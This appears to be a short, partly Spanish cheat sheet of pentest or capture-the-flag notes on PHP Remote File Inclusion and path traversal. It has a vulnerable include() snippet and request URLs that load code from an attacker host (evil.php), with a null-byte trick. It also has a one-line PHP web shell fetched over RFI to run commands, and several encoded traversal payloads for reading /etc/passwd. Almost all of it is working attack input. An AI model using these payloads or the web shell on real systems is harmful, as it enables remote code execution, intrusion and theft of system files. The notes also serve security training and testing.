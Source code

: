 
# 2 Remote File Inclusion  
---

requires allow_url_fopen=On and allow_url_include=On  
```

$incfile = $_REQUEST["file"];  
include($incfile.".php");  

```

* **original**
```
http://10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=FR&Submit=Submit
   ```
* **modificado**
```
http://10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=http://10.10.10.10./evil.php&Submit=Submit
```

seguro nos tira un problema  tratando de ejecutar evil.txt.php, asi que podemos usar un nullbyte para que no appenda el .php
```
10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=http://10.10.10.10./evil.php%00&Submit=Submit
```

## web shell rfi
```
cat shell.php
<?=`$_GET[0]`?>
```
```
http://10.10.10.151/blog/?lang=//10.10.14.23/Public/shell.php&0=dir
```

# 3 Common obstacules
---
* just the path  
```
      filename=/etc/passwd
```
* stripped non recursive  
```
filename=....//....//....//etc/passwd
```

* encoding  
```
 filename=..%252f..%252f..%252fetc/passwd
```
* validation of start path
```
 filename=/var/www/images/../../../etc/passwd
```
* add nullbyte
```
 filename=..%252f..%252f..%252fetc/passwd%00
```
